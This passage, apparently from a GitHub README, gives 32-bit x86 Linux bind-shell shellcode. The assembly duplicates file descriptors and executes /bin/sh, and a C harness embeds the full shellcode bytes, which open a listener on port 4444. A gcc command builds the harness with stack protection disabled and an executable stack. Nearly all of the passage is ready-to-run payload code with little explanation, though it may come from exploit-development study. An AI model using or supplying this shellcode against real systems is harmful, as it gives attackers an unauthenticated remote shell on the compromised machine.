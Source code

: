 ```c

	xor ecx, ecx
	mov cl, 0x2		; ecx = 2
_:
	mov al, 0x3f		; syscall dup2
	int 0x80
	dec ecx
	jns _

	; execute the shell /bin/sh

	xor ecx,ecx		; ecx = 0
	mul ecx			; eax = edx =ecx = 0
	push eax		; push 0 onto the stack
	push 0x68732f2f		; push //bin/sh
	push 0x6e69622f
	mov ebx, esp		; save esp into ebx
	mov al, 0xb		
	int 0x80		; make the syscall execve("/bin/sh", NULL, NULL)


```

## Compilation ## 

Then the code is compiled:

```c
#include <stdio.h>
#include <string.h>


unsigned char code[] = \
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x5b\x5e\x66\x68\x11\x5c\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\xb0\x66\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\x89\xe1\xcd\x80\x89\x41\x08\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\xf7\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";

int main()
 {
 
         printf("taille %d\n", strlen(code));
 
         int (*ret)() = (int(*)())code;
 
         ret();
 
         return 0;
 
 }

gcc -fno-stack-protector -z execstack test_shellcode.c -o test_shellcode
```
